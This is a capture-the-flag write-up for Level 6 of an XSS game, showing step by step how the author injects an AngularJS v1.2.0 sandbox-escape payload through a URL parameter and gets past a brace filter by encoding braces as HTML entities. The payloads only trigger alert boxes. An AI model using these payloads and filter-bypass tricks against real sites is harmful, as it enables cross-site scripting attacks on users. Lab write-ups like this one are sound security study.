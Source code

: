 # XSS Game Write-Up: Level 6

![Image](https://github.com/user-attachments/assets/d334b0e7-27aa-4619-9908-2ed3d1fd54ac)

After entering the challenge, I followed the same steps I did in Level 5, which was to check the version of AngularJS. This time, I found it was an older version: **AngularJS v1.2.0**. So, I started looking for XSS vulnerabilities in this version and what payload I could use to exploit it. After some searching, I found this payload: 

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

![Image](https://github.com/user-attachments/assets/791736b8-9a6f-4d5f-98ee-fdc74aed9f7d)


I tried putting it in the search input, but it just rendered as a string and didn't execute or do anything.  

![Image](https://github.com/user-attachments/assets/bd0d88ad-c649-43b3-9e14-fe01bda67460)

So, I went back to the source code and noticed that the search form was using the POST method:

```html
<form action="/f/rWKWwJGnAeyi/" method="POST">
  <input id="demo2-query" name="query" maxlength="140" ng-model="query" placeholder="Enter query here...">
  <input id="demo2-button" type="submit" value="Search">
</form>
```

I thought, "Okay, what if I want to make the method GET so that it takes the payload from the URL?" What could I do? I saw that the search input has a name attribute, which is "query". What if I made this name a parameter in the URL and gave it the payload as its value? Would the server accept it, read it, and understand it? I decided to give it a try.

I added the attribute to the URL like this:
```
?query={{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

Nothing happened on the page, but when I checked the source code, I saw that what I wrote was reflected in the form's action, and the method turned to GET:

```html
<form action="/f/rWKWwJGnAeyi/?query=a='constructor';b=};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}" method="GET">
```

But when I opened the browser's dev tools, I noticed that the server understood the GET request, but it filtered out the }} characters.

![Image](https://github.com/user-attachments/assets/4ba21823-d3d4-4065-bad0-3b03c4739539)
 so what about replacing `{ `to `&lcub`
making the payload look like this:
```ruby
?query=&lcub;&lcub;a='constructor';b=&lcub;&rcub;;a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert()')()}}
```

And it worked!

![Image](https://github.com/user-attachments/assets/672d32b9-32e7-4ec6-840f-2f1f62403bf2)
